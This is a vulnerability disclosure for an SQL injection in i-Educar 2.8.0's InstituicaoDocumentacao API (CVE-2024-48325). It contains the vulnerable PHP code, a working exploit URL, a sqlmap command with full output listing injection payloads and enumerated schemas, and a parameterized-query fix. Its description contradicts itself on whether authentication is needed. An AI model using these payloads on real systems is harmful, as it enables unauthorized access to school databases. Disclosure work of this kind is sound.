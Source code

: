 # CVE-2024-48325

> **Description:**  An authenticated user can abuse SQL injection vulnerability exists in the `getDocuments` function of the `InstituicaoDocumentacaoController` class. The `instituicao_id` parameter in `/module/Api/InstituicaoDocumentacao?oper=get&resource=getDocuments&instituicao_id` is not properly sanitized, allowing an unauthenticated remote attacker to inject malicious SQL commands.

> **Versions:** Discovered in Portabilis i-Educar 2.8.0.

## Proof of Concept

### Vulnerability Details

The issue is present in the getDocuments function of the InstituicaoDocumentacaoController class, which can be triggered through the following endpoint:

```php
class InstituicaoDocumentacaoController extends ApiCoreController
{
    protected function insertDocuments()
    {
        $var1 = $this->getRequest()->instituicao_id;
        $var2 = $this->getRequest()->titulo_documento;
        $var3 = $this->getRequest()->url_documento;
        $var4 = $this->getRequest()->ref_usuario_cad;
        $var5 = $this->getRequest()->ref_cod_escola;
        $sql = "INSERT INTO pmieducar.instituicao_documentacao (instituicao_id, titulo_documento, url_documento, ref_usuario_cad, ref_cod_escola) VALUES ($var1, '$var2', '$var3', $var4, $var5)";
        $this->fetchPreparedQuery($sql);
        $sql = "SELECT MAX(id) FROM pmieducar.instituicao_documentacao WHERE instituicao_id = $var1";
        $novoId = $this->fetchPreparedQuery($sql);
        return ['id' => $novoId[0][0]];
    }
    
    protected function getDocuments()
    {
        $var1 = $this->getRequest()->instituicao_id;
        $sql = "SELECT * FROM pmieducar.instituicao_documentacao WHERE instituicao_id = $var1 ORDER BY id DESC";
        $instituicao = $this->fetchPreparedQuery($sql);
        $attrs = ['id', 'titulo_documento', 'url_documento', 'ref_usuario_cad', 'ref_cod_escola'];
        $instituicao = Portabilis_Array_Utils::filterSet($instituicao, $attrs);
        return ['documentos' => $instituicao];
    }
}
```

### How the Vulnerability Occurs

The `instituicao_id` parameter is used directly in SQL queries without proper sanitization or parameterization. This allows attackers to send malicious HTTP requests to inject SQL commands, potentially gaining unauthorized access to the database or manipulating data.

- Example endpoint that triggers the vulnerability:
  `/module/Api/InstituicaoDocumentacao?oper=get&resource=getDocuments&instituicao_id=14`
- Example Exploit:
  `/module/Api/InstituicaoDocumentacao?oper=get&resource=getDocuments&instituicao_id=14+AND+(CAST(VERSION()+AS+INTEGER))%3d1`

#### Server Response:
```http
{
    "oper": "get",
    "resource": "getDocuments",
    "msgs": [
        {
            "msg": "Exception: Error preparing query (SELECT * FROM pmieducar.instituicao_documentacao WHERE instituicao_id = 1 AND (CAST(VERSION() AS INTEGER))=1 ORDER BY id DESC) in the database: Exception: SQLSTATE[22P02]: Invalid text representation: 7 ERROR: invalid input syntax for type integer: \"PostgreSQL 16.4 on x86_64-pc-linux-musl, compiled by gcc (Alpine 13.2.1_git20240309) 13.2.1 20240309, 64-bit\" (Connection: pgsql, SQL: SELECT * FROM pmieducar.instituicao_documentacao WHERE instituicao_id = 1 AND (CAST(VERSION() AS INTEGER))=1 ORDER BY id DESC)",
            "type": "error"
        }
    ],
    "any_error_msg": true
}
```
### Automated Exploitation

- This vulnerability can also be exploited by automated tools like SQLMap, allowing database enumeration:
`sqlmap -r ../instituicaoDocumentacao.r --dbms postgres --dbs -p instituicao_id --risk 3 --level 5`

#### SQLMap

```bash
    ┌──(root㉿mithrandir)-[/home/kali/cve/i-educar]
    └─# sqlmap -r ../instituicaoDocumentacao.r --dbms postgres --dbs -p instituicao_id --risk 3 --level 5
            ___
           __H__                                                                                                                                                
     ___ ___[,]_____ ___ ___  {1.8.8#stable}                                                                                                                    
    |_ -| . [,]     | .'| . |                                                                                                                                    
    |___|_  [']_|_|_|__,|  _|                                                                                                                                    
          |_|V...       |_|   https://sqlmap.org                                                                                                                
    [!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program
    [*] starting @ 18:35:00 /2024-09-18/
    [18:35:00] [INFO] parsing HTTP request from '../instituicaoDocumentacao.r'
    [18:35:00] [INFO] testing connection to the target URL
    [18:35:00] [INFO] testing if the target URL content is stable
    you provided a HTTP Cookie header value, while target URL provides its own cookies within HTTP Set-Cookie header which intersect with yours. Do you want to merge them in further requests? [Y/n]
    [18:35:02] [INFO] target URL content is stable
    [18:35:02] [WARNING] heuristic (basic) test shows that GET parameter 'instituicao_id' might not be injectable
    [18:35:03] [INFO] testing for SQL injection on GET parameter 'instituicao_id'
    [18:35:03] [INFO] testing 'AND boolean-based blind - WHERE or HAVING clause'
    [18:35:03] [WARNING] reflective value(s) found and filtering out
    [18:35:33] [INFO] testing 'OR boolean-based blind - WHERE or HAVING clause'
    [18:36:06] [INFO] testing 'OR boolean-based blind - WHERE or HAVING clause (NOT)'
    [18:36:41] [INFO] testing 'AND boolean-based blind - WHERE or HAVING clause (subquery - comment)'
    [18:36:44] [INFO] GET parameter 'instituicao_id' appears to be 'AND boolean-based blind - WHERE or HAVING clause (subquery - comment)' injectable
    [18:36:44] [INFO] testing 'Generic inline queries'
    [18:36:44] [INFO] testing 'PostgreSQL AND error-based - WHERE or HAVING clause'
    [18:36:45] [INFO] GET parameter 'instituicao_id' is 'PostgreSQL AND error-based - WHERE or HAVING clause' injectable
    [18:36:45] [INFO] testing 'PostgreSQL inline queries'
    [18:36:45] [INFO] testing 'PostgreSQL > 8.1 stacked queries (comment)'
    [18:36:46] [INFO] testing 'PostgreSQL > 8.1 stacked queries'
    [18:36:46] [INFO] testing 'PostgreSQL stacked queries (heavy query - comment)'
    [18:36:47] [INFO] testing 'PostgreSQL stacked queries (heavy query)'
    [18:36:48] [INFO] testing 'PostgreSQL < 8.2 stacked queries (Glibc - comment)'
    [18:36:49] [INFO] testing 'PostgreSQL < 8.2 stacked queries (Glibc)'
    [18:36:51] [INFO] testing 'PostgreSQL > 8.1 AND time-based blind'
    [18:37:03] [INFO] GET parameter 'instituicao_id' appears to be 'PostgreSQL > 8.1 AND time-based blind' injectable
    [18:37:03] [INFO] testing 'Generic UNION query (NULL) - 1 to 20 columns'
    [18:37:03] [INFO] automatically extending ranges for UNION query injection technique tests as there is at least one other (potential) technique found
    [18:37:03] [INFO] 'ORDER BY' technique appears to be usable. This should reduce the time needed to find the right number of query columns. Automatically extending the range for current UNION query injection technique test
    [18:37:05] [INFO] target URL appears to have 6 columns in query
    [18:37:06] [INFO] GET parameter 'instituicao_id' is 'Generic UNION query (NULL) - 1 to 20 columns' injectable
    GET parameter 'instituicao_id' is vulnerable. Do you want to keep testing the others (if any)? [y/N]
    sqlmap identified the following injection point(s) with a total of 357 HTTP(s) requests:
    ---
    Parameter: instituicao_id (GET)
        Type: boolean-based blind
        Title: AND boolean-based blind - WHERE or HAVING clause (subquery - comment)
        Payload: oper=get&resource=getDocuments&instituicao_id=1 AND 3719=(SELECT (CASE WHEN (3719=3719) THEN 3719 ELSE (SELECT 7032 UNION SELECT 7023) END))-- Fcse
        Type: error-based
        Title: PostgreSQL AND error-based - WHERE or HAVING clause
        Payload: oper=get&resource=getDocuments&instituicao_id=1 AND 7438=CAST((CHR(113)||CHR(112)||CHR(122)||CHR(106)||CHR(113))||(SELECT (CASE WHEN (7438=7438) THEN 1 ELSE 0 END))::text||(CHR(113)||CHR(113)||CHR(120)||CHR(107)||CHR(113)) AS NUMERIC)
        Type: time-based blind
        Title: PostgreSQL > 8.1 AND time-based blind
        Payload: oper=get&resource=getDocuments&instituicao_id=1 AND 8710=(SELECT 8710 FROM PG_SLEEP(5))
        Type: UNION query
        Title: Generic UNION query (NULL) - 6 columns
        Payload: oper=get&resource=getDocuments&instituicao_id=1 UNION ALL SELECT NULL,NULL,NULL,(CHR(113)||CHR(112)||CHR(122)||CHR(106)||CHR(113))||(CHR(84)||CHR(80)||CHR(80)||CHR(113)||CHR(66)||CHR(85)||CHR(89)||CHR(112)||CHR(71)||CHR(106)||CHR(107)||CHR(118)||CHR(113)||CHR(77)||CHR(78)||CHR(105)||CHR(66)||CHR(76)||CHR(98)||CHR(87)||CHR(120)||CHR(118)||CHR(110)||CHR(84)||CHR(75)||CHR(112)||CHR(87)||CHR(119)||CHR(115)||CHR(90)||CHR(112)||CHR(70)||CHR(82)||CHR(88)||CHR(78)||CHR(85)||CHR(83)||CHR(117)||CHR(120)||CHR(98))||(CHR(113)||CHR(113)||CHR(120)||CHR(107)||CHR(113)),NULL,NULL-- eplJ
    ---
    [18:38:27] [INFO] the back-end DBMS is PostgreSQL
    [18:38:27] [CRITICAL] unable to connect to the target URL. sqlmap is going to retry the request(s)
    web application technology: Nginx 1.26.2, PHP 8.3.11
    back-end DBMS: PostgreSQL
    [18:38:29] [WARNING] schema names are going to be used on PostgreSQL for enumeration as the counterpart to database names on other DBMSes
    [18:38:29] [INFO] fetching database (schema) names
    [18:38:30] [WARNING] something went wrong with full UNION technique (could be because of limitation on retrieved number of entries). Falling back to partial UNION technique
    [18:38:31] [WARNING] the SQL query provided does not return any output
    [18:38:31] [INFO] retrieved: 'public'
    [18:38:31] [INFO] retrieved: 'pg_catalog'
    [18:38:32] [INFO] retrieved: 'cadastro'
    [18:38:32] [INFO] retrieved: 'pmieducar'
    [18:38:33] [INFO] retrieved: 'modules'
    [18:38:33] [INFO] retrieved: 'portal'
    [18:38:33] [INFO] retrieved: 'information_schema'
    [18:38:34] [INFO] retrieved: 'relatorio'
    available databases [8]:
    [*] cadastro
    [*] information_schema
    [*] modules
    [*] pg_catalog
    [*] pmieducar
    [*] portal
    [*] public
    [*] relatorio
    [18:39:48] [INFO] fetched data logged to text files under '/root/.local/share/sqlmap/output/localhost'
    [*] ending @ 18:39:48 /2024-09-18/ 
```

### Suggested solution:

- To fix this issue, sanitize all parameters where users can input values. In this specific case, parameterized queries help mitigate SQL injection risks:

```php

$sql = "SELECT * FROM pmieducar.instituicao_documentacao WHERE instituicao_id = :instituicao_id ORDER BY id DESC";
$params = [':instituicao_id' => $this->getRequest()->instituicao_id];
$instituicao = $this->fetchPreparedQuery($sql, $params);
```

- Or alternatively:

```php
$sql = "SELECT * FROM pmieducar.instituicao_documentacao WHERE instituicao_id = :instituicao_id ORDER BY id DESC";
$stmt = $this->db->prepare($sql);
$instituicao_id = $this->getRequest()->instituicao_id;
$stmt->bindParam(':instituicao_id', $instituicao_id, PDO::PARAM_INT);
$stmt->execute();
$instituicao = $stmt->fetchAll(PDO::FETCH_ASSOC);
```
